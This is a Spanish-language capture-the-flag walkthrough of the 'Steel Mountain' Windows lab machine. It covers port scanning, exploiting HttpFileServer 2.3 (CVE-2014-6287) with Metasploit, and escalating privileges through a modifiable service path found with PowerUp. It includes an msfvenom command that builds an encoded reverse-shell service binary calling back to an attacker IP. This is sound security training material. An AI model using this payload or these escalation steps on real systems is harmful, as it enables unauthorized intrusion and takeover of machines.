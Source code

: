 # STEELMOUNTAIN

# INTRODUCCIÓN

En esta máquina enumeraremos una máquin Windows, ganando acceso con Metasploit, usando powershell para enumerar la maquina y escalar privilegios de administrador.

# ENUMERACIÓN

Test de conectividad

![image](https://github.com/user-attachments/assets/6d7902e8-8f42-4874-a24d-8288f76ca21d)

Escaneo de puertos

![image](https://github.com/user-attachments/assets/cdaf2174-aa04-4135-9227-65927184e657)

Encontramos bastantes puertos abiertos un servidor por el puerto predefinido 80 y otro por el 8080

Parece ser que el puerto 8080 es un servidor HttpFile

![image](https://github.com/user-attachments/assets/199284c8-f896-4686-8f27-0d1bd9cad6a6)

Por el puerto 80 tenemos una página normal y corriente con una imagen de empleado del mes.

![image](https://github.com/user-attachments/assets/b691c09c-6bbe-4b0b-9015-6dbdf49fd470)

Vamos a cogerla y vamos a hacerle estenografía o exiftool a ver si sacamos algo de info

No ha sido ni necesario al descargarla ya nos dice su nombre "Bill Harper"

Posteriormente si nos volvemos al puerto 8080 y vemos que "HttpFileServer 2.3"

Vamos a buscar vulnerabilidades 

![image](https://github.com/user-attachments/assets/04c0164b-5be9-4fe6-a862-2d0734ec85ff)

Encontrada un "Remote Command execution"

Con el CVE-2014-6287

De hecho la máquina nos dice que utilicemos metasploit para ganar una shell lo podemos hacer a sí o generar nosotros mismos una.

Nosotros utilizaremos Metasploit por la sencillez

Simplemente desde metasploit buscamos el CVE con search y posteriormente lo configuramos como otro más.

pillamos la primera flag

![image](https://github.com/user-attachments/assets/d46c9524-2ea4-434e-af20-f2ab009ee033)

![image](https://github.com/user-attachments/assets/3960bd9c-f0a4-4054-a50f-e8e0310007e3)

# ESCALADA DE PRIVILEGIOS

Ahora que tenemos una shell y una cceso, vamos a enumerar la maquina para usar scripts de powershell para elevar privilegios en la máquina widnows.

Podemos descargar el scrip que utilizaremos (https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

![image](https://github.com/user-attachments/assets/f4471005-9baa-4b73-be3a-ceedbea28336)

Encontramos el path vulnerable AdvancedSystemCareService9 "Accesschk.exe" 

Este directorio revela que podemos moficiar rutas gracias a este servicio.

Vamos a usar msfvenom para generar una shell reversa

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.143.190 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

Creamos un python server o simplemente lo subimos con upload

Nos tenemos que ir al directio C:\Program Files (x86)\IObit\

Una cosa importante es darnos cuentas que el usuario que tenemos podemos parar dicho servicio, 

![image](https://github.com/user-attachments/assets/21ae116c-adff-46e0-aafb-401da2335c38)

Primero de todo deberemos generar la "shell" con shell simplemente

Despúes de todo identificar el servicio "AdvancedSystemCareService9" posteriormente, pararlo hacer y volverlo a ejecutar mientras estamos en escucha por el puerto que anteirormente pusimos en la rev shell

![image](https://github.com/user-attachments/assets/dff3baed-4f34-40ba-ac3e-e5b2354b886b)

![image](https://github.com/user-attachments/assets/2b07ccab-7a36-4f68-9e74-dfcb4fa1725f)

![image](https://github.com/user-attachments/assets/affbbc2d-dd45-4bf0-9f73-9ea79ad737bf)


